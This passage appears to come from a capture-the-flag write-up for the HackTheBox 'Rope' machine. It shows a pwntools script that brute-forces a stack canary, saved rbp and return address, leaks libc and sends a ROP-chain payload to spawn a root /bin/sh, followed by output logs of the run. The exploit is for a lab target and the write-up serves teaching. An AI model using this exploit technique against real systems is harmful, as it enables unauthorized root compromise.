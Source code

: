 ```python
canary = bf_value(ssh, "canary", b'')
rbp = bf_value(ssh, "rbp", p64(canary))
ret = bf_value(ssh, "ret", p64(canary) + p64(rbp))

# Leak libc
 leak(ssh, canary, rbp, ret)

# Generate payload to get shell               # Redirect std to socket and run /bin/sh
payload = b'A' * 0x38 + p64(canary) + p64(rbp) + genRopChain()

# Send payload
io = start(ssh)
io.sendlineafter('admin:\n', payload)
io.interactive()
```

### Getting a shell as root
I have recorded the whole exploit script running. Here is a GIF of it, sped up 32-times (would take 23 minutes otherwise).

![Exploit running](/assets/htb/Rope/root-exploit.gif)

```python
root@silence:~# python3 exploit.py
[*] '/root/contact'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

    ______                                    _            _  _
    | ___ \                                  | |          | || |
    | |_/ / ___   _ __    ___   ______   ___ | |__    ___ | || |
    |    / / _ \ | '_ \  / _ \ |_root_| / __|| '_ \  / _ \| || |
    | |\ \| (_) || |_) ||  __/          \__ \| | | ||  __/| || |
    \_| \_|\___/ | .__/  \___|          |___/|_| |_| \___||_||_|
                 | |
    ______       |_| _____  _            _____         ____        _____
    | ___ \         /  __ \| |          / __  \       / ___|      /  _  \
    | |_/ / _   _   | /  \/| |__   _ __ | |/| |__  __/ /___   ___ | | | | ___
    | ___ \| | | |  | |    | '_ \ | '__|| |/| |\ \/ /| ___ \ / _ \| | | |/ __|
    | |_/ /| |_| |  | \__/\| | | || |   \ |_/ / >  < | \_/ ||  __/\ \_/ /\__ \
    \____/  \__, |   \____/|_| |_||_|    \___/ /_/\_\\_____/ \___| \___/ |___/
            __/  |
            |___/


[+] Connecting to 10.10.10.148 on port 22: Done
[ERROR] python is not installed on the remote system '10.10.10.148'
[*] r4j@10.10.10.148:
    Distro    Unknown Unknown
    OS:       Unknown
    Arch:     Unknown
    Version:  0.0.0
    ASLR:     Disabled
[+] Got canary: 0xf1c69b1943149700
[+] Got rbp: 0x7ffd7a57ae50
[+] Got ret: 0x55aab8bbe562

[*] Loaded 15 cached gadgets for './contact'
[*] Loaded 196 cached gadgets for './libc.so.6'
[+] Leaked libc base: 0x7ff2cda55000
```

[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif